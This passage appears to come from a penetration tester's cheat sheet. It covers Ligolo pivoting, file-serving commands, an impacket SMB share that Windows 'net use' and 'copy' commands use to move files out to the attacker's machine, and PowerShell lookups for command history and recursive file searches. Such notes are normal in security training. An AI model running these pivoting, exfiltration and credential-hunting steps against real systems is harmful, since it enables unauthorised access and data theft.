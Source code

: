 On kali:
```
sudo ip route add {internal subnet ip} dev ligolo

**Ex: 10.10.209.0/24 make sure it’s 0/24 for all interfaces**
```

On server: `start`
**Add a listener: listener_add --addr 0.0.0.0:1235 --to**


#### Useful Kali Commands

To start a web server:
```
python3 -m http.server 80
```

Split file by white space:
```
cat file.txt | awk '{print $1, $4}' > temp.txt
```

SMB share w/ anonymous user:
```
sudo smbserver.py share ./
Remote: \\{ip}\share\file.txt
```

Transfer files from Windows to Kali:

```
impacket-smbserver temp . -smb2support -user hacker -password hack

WIndows:

net use \\{my_ip}\temp /user:hacker hack

copy {full_path_file} \\{my_ip}\temp
```

#### Create & Mount an ntfs disk
```
dd if=/dev/zero of=ntfs.disk bs=1024M count=2

```
#### Useful Powershell Commands

```
(Get-PSReadlineOption).HistorySavePath

*Check winpeas for Powershell Transcript Path*

Get-ChildItem -Path C:\ -Include *.{extension} -File -Recurse -ErrorAction SilentlyContinue
```


#### Kerberos Constrained Delegation

